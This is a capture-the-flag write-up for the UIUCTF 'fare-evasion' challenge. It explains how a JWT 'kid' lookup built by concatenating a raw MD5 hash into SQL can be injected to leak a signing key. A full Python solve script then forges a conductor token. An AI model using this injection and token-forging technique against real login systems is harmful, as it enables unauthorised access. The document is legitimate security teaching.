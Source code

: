 ```yaml
---
ai_date: 2025-04-27 05:22:08
ai_summary: Exploited SQL injection using raw MD5 hash in string concatenation for payload modification
ai_tags:
  - sql
  - md5
  - injection
created: 2024-06-28T20:52
points: 370
solves: 173
tags:
  - raw-md5
updated: 2025-07-14T09:46
---
```


## Analyze
A quick analysis of the network requests tells me that I have to sign my own JWT with the type `conductor` and a different kid.

```json
{
  "alg": "HS256",
  "kid": "passenger_key",
  "typ": "JWT"
}
```

```json
{
  "type": "passenger"
}
```

Using a random key doesn't work.

```
Key isn't passenger or conductor. Please sign your own tickets.
```

### Hint
The message returned has hash in messy unicode, that's peculiar, and it appears that the server is querying based on raw md5, using unsafe string concatenation.

```js
// i could not get sqlite to work on the frontend :(
      /*
        db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
        ???????
       */
```

## Solve
We will reference past writeups [^1], and use their payload for md5 exploitation.
The basic idea is that raw md5 of this payload will result in a sql injection like this

```sql
SELECT login FROM admins WHERE password = 'xxx'||'1xxxxxxxx'
```

```python
encoded_token = jwt.encode(decoded_token, secret, algorithm="HS256", headers={"kid": "129581926211651571912466741651878684928"})
```

We will first modify the header's kid, without changing anything.

```
Sorry passenger, only conductors are allowed right now. Please sign your own tickets. 
hashed ô÷uÞIB♣BçÙ+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e
hashed Rò▲sÜxÉÄ☻Å´↕\ä secret: a_boring_passenger_signing_key_?
```

SQL injection worked and we have our conductor key.

### Solve Script

```python
import requests
import re
import jwt

url = "https://fare-evasion.chal.uiuc.tf/"

response = requests.get(url)
set_cookie = response.headers.get("Set-Cookie")
access_token = re.search(r'access_token=(.*?);', set_cookie).group(1)
decoded_token = jwt.decode(access_token, algorithms=["HS256"], options={"verify_signature": False})
decoded_token['type'] = 'conductor'

# sql inject with raw md5 hash
secret = "a_boring_passenger_signing_key_?"
encoded_token = jwt.encode(decoded_token, secret, algorithm="HS256", headers={"kid": "129581926211651571912466741651878684928"})
headers = {"Cookie": f"access_token={encoded_token}"}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
conductor_key = re.search(r'secret: (.+)\n', msg).group(1)
# "conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e"
encoded_token = jwt.encode(decoded_token, conductor_key, algorithm="HS256", headers={"kid": "conductor_wkey"})
headers = {
    "Cookie": f"access_token={encoded_token}"
}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
# Conductor override success. uiuctf{sigpwny_does_not_condone_turnstile_hopping!}
```

[^1]: [SQL injection with raw MD5 hashes (Leet More CTF 2010 injection 300) - Christian von Kleist (posthaven.com)](https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)